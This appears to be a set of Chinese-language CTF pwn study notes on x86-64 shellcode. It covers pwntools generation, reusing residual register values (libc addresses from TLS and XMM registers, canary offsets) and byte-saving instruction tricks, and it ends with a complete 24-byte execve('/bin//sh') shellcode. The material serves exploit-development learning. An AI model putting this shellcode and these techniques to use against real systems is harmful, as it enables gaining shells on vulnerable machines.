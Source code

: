 ```yaml
---
title: Shellcode
date: '2024-12-14 01:26:52'
updated: '2025-05-25 11:13:14'
---
```

## pwntools 生成shellcode
`shellcraft.sh()`生成getshell用的汇编代码

`asm()`把括号里面的内容转成机器码

## /bin/sh 指针获取
可以利用 add 让 `jmp` 的寄存器指向 payload 的`/bin/sh`

也可以 push /bin/sh 然后用 rsp 指针

## 缩短 shellcode 
来自Xp0int 飞书的《Pwn Survival Guide》

Author：@xf1les 

Date：2023/03/31

最近看了 NKCTF 2023 的 9961code 这道题。像这种限制 shellcode 长度的题目以后会经常遇到，这里写一下个人的有关缩短 shellcode 长度的一些技巧。

### 重用残留的寄存器值
可利用的寄存器值有以下三种：

+ **libc 地址**
+ shellcode 地址
+ 特殊值（例如 `0`）

其中最有价值的是 libc 地址。**只要拿到 libc 地址，就能转跳到 one gadget 直接 get shell**。

```plain
0:    48 8d 88 cc ed ff ff     lea    rcx,  [rax-0x1234] ; 假设 rax 是一个 libc 地址
7:    ff e1                    jmp    rcx                ; 转跳至 one gadget
```

可以通过以下3个途径获得残留的寄存器值

+ 通用寄存器（如：`rdi`/`rsi`/`rax` 等）
+ **段寄存器**（`fs`/`gs`）
+ **XMM寄存器**（`xmm0`-`xmm7`）

这里重点一下后面两种途径。

**两个段寄存器（64位**`**fs**`**/32位**`**gs**`**）**指向的是 **TLS** (Thread Local Storage) 内存。在用户态下，TLS 简单来说就是glibc 分配的一块特殊内存，存储了一些与当前线程相关的信息，上面**可以泄露 libc 地址、canary 等大量有用信息**。

在 gdb 下，可以使用 pwndbg 提供的`tls`命令获取 TLS 的内存地址。

![](/images/1ef962ad19b39f756782afeffd0584d7.png)

访问 fs 指向的 TLS 内存

```plain
0:    64 48 8b 04 25 c8 ff ff ff  mov    rax,  [fs:-0x38] ; 立即寻址
 9:    48 c7 c7 c8 ff ff ff        mov    rdi,  -0x38
10:    64 48 8b 07                 mov    rax,  [fs:rdi] ; 通过寄存器间接寻址
```

TLS 内存的内容因 glibc 版本而异，常见的内容有：

```plain
[fs:0x00]  tls 内存的地址
[fs:0x28]  canary
[fs:0x30]  pointer guard cookie
[fs:-0x38] main_arena 地址（<--- 即 libc 地址）
[fs:-0x48] tcache 地址（<--- 即堆地址）
```

**XMM寄存器**是8个长度为128位的寄存器`xmm0`-`xmm7`，常用于大规模的数据处理（例如科学计算、视频解码）。跟通用寄存器一样，有时会残留内存地址（例如 libc 地址）。

在 gdb 下，使用`print`指令查看某个XMM寄存器的值。

![](/images/0437d88bb9728bb9e4cb09bcc23972b6.png)

一个xmm寄存器可以视为两个64位寄存器。xmm寄存器和通用寄存器之间的数据移动操作如下：

```plain
0:    66 48 0f 7e e8           movq   rax,  xmm5   ; 将 xmm5 低64位数据移动至 rax
5:    0f 17 2c 24              movhps [rsp],  xmm5 ; 将 xmm5 高64位数据移动至 rdx
9:    5a                       pop    rdx          ; 注意：movhps 的目的地必须是内存
                                                   ;      这里使用栈作为中转内存
```

### 使用长度更短的指令
#### 获得零值
```plain
0:    ba 00 00 00 00           mov    edx,  0x0 ; 使用 mov 清零，不但浪费 shellcode 空间
                                                ; 空字节还可能会截断 shellcode

; 以下是长度更短的等效指令
5:    99                       cdq              ; 一字节清零 rdx 寄存器
                                                ; 仅当 rax 寄存器最高比特位为1不可用
                                                ; cdq是将rdx的全部位(bit)改为rax的最高位
6:    48 31 d2                 xor    rdx,  rdx ; 三字节清零任意寄存器
```

#### 加载小常数到寄存器
```plain
0:    b8 3b 00 00 00           mov    eax,  0x3b ; 问题见上一节

; 以下是长度更短的等效指令
5:    6a 3b                    push   0x3b 			 ; 利用栈做中转，只需三字节
9:    58                       pop    rax        ;  不但长度更短，还能减少不必要的空字节
5:    b0 3b                    mov    al,  0x3b  ; 若64位寄存器高位恰好是零，
                                                 ; 可以换用8位寄存器，节省更多字节
```

#### 将寄存器的值移动至另一个寄存器
```plain
0:    48 89 c7                 mov    rdi,  rax ; 使用 mov 需要三字节
   
; 以下是长度更短的等效指令
   6:    50                       push   rax       ; 利用栈做中转只需两字节
   7:    5a                       pop    rdx
   3:    48 97                    xchg   rdi,  rax ; 交换两个寄存器的数值
                                                   ; 当其中一个寄存器是 rax 时，只需两字节
   5:    97                       xchg   edi,  eax ; 若使用32位寄存器，只需一字节！
```

### 杂项
[shellcode链接](https://www.zorinaq.com/papers/shellcode-amd64.html) 最短的 amd64 通用 shellcode，只需24字节

解释：

```plain
6a 3b	push $0x3b	
58	pop %rax	                               ;set %rax to 0x3b
99	cltd	                                   ;%rdx (arg 3: envp) is set to 0
48 bb 2f 62 69 6e 2f 2f 73 68	mov $0x68732f2f6e69622f,%rbx	;set %rbx to "/bin//sh"
52	push %rdx	                               ;push 0
53	push %rbx	                               ;push "/bin//sh"
54	push %rsp	
5f	pop %rdi	                               ;%rdi (arg 1: path) points to "/bin//sh"
52	push %rdx	                               ;push 0
57	push %rdi	                               ;push ptr to path
54	push %rsp	
5e	pop %rsi	                               ;%rsi (arg 2: argv) points to ["/bin//sh",0]
0f 05	syscall	                               ;execve(path,argv,envp)
```

汇编：

```plain
push $0x3b
pop %rax
cltd
mov $0x68732f2f6e69622f,%rbx
push %rdx
push %rbx
push %rsp
pop %rdi
push %rdx
push %rdi
push %rsp
pop %rsi
syscall
```

